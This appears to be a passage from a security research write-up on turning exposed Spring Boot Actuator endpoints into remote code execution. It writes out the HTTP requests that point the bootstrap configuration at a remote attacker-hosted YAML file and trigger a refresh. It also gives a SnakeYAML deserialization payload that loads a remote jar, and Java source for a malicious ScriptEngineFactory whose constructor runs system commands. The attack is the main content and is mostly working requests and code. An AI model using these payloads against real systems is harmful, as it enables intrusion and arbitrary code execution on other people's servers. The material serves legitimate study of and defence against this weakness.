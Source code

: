 A full list of default actuators may be found here: [https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt). Keep in mind that application developers can create their own endpoints using @Endpoint annotation.

**Update May 2019:**

There is a more reliable way to achieve RCE via a Spring environmental properties modification:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
 
spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml
```

This request modifies the 'spring.cloud.bootstrap.location' property, which is used to load external config and parse it in YAML format. To make this happen, we also need to call the '/refresh' endpoint.

```
POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

When the YAML config is fetched from the remote server, it is parsed with the SnakeYAML library, which is also susceptible to deserialization attacks. The payload (yaml-payload.yml) may be generated by using the aforementioned Marshalsec research :

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```

Deserialization of this file triggers execution of the ScriptEngineManager's constructor with the supplied URLClassLoader. In a nutshell, it leads to the **'java.util.ServiceLoader#load(java.lang.Class\<S>, java.lang.ClassLoader)'** method, which tries to find all implementations of the 'ScriptEngineFactory' interface within all libraries in the classpath. Since we can add a new library via URLClassLoader, we can serve a new 'ScriptEngineFactory' with the malicious bytecode inside. In order to do so, we need to create a jar archive with the following mandatory files: [yaml-payload.jar:/artsploit/AwesomeScriptEngineFactory.class](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java) should contain the actual bytecode, with the malicious payload in the constructor.

```
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
 
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
